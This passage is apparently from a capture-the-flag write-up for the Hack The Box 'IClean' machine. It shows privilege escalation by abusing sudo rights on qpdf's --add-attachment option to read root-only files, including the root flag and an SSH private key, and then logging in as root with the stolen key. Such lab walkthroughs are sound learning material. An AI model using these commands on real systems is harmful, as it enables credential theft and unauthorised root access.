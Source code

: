 As the user can run the binary as `sudo`, this can be exploited to exfiltrate data that would otherwise be inaccessible to the `consuela` user.

## Exfiltrating sensitive data

For example, the following command has appended the `root` flag from `/root/` to a new file that is accessible to the current user.

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --empty /tmp/test.txt --qdf --add-attachment /root/root.txt --
consuela@iclean:~$ cat /tmp/test.txt | grep -A 30 "root"
<SNIP>
```

But that's too easy. The `admin` user's `id_rsa` file could also be exfiltrated:

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --empty /tmp/id_rsa --qdf --add-attachment /root/.ssh/id_rsa --
consuela@iclean:~$ cat /tmp/id_rsa | grep -A 10 "BEGIN" /tmp/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1<SNIP>
-----END OPENSSH PRIVATE KEY-----
endstream
endobj
consuela@iclean:~$
```

Taking the key and adding it to a file with `chmod 600` permissions

```bash
┌──(emdeh㉿kali)-[~/Documents/htb-machines/iclean/credentials]
└─$ nano id_rsa_admin
┌──(emdeh㉿kali)-[~/Documents/htb-machines/iclean/credentials]
└─$ chmod 600 id_rsa_admin
┌──(emdeh㉿kali)-[~/Documents/htb-machines/iclean/credentials]
└─$ ssh -i id_rsa_admin root@capiclean.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
<SNIP?
root@iclean:~# pwd
/root
root@iclean:~# ls
root.txt  scripts
root@iclean:~# cat root.txt
33e5361<SNIP>
```

And the root flag is found.